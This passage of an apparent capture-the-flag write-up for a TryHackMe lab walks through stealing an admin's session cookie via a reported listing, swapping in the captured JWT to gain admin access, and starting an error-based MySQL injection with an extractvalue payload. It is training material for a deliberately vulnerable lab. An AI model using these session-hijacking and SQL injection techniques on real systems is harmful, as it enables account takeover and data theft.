 After created, you should see your cookies:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a24.png)

4. Click "Report listing to admins":

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a25.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a26.png)

5. Captured admin's cookies!:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a27.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a28.png)

```
token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NjE4NTAxMDJ9.CghyCdJOW-5TqjD2vkqPMZzuxOE5CQnS0dSvnLvQPxQ
```

6. Change your token value to admin's value:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a29.png)

7. Hard refresh(`Ctrl+r`) your browser:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a30.png)

Boom!! We're admin!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a31.png)

**flag 1:**
```
THM{Redacted}
```

# Initial Foothold

After I enumerate the "Administration panel" a little bit, I found that **it suffers SQL Injection**!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a32.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a33.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a34.png)

Found an **Error-Based SQL Injection** vulnerability! I'll use [this cheat sheet](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/) to do it.

**Let's retrieve it's MySQL version:**
```sql
1 AND extractvalue(rand(),concat(0x3a,version()))--
```
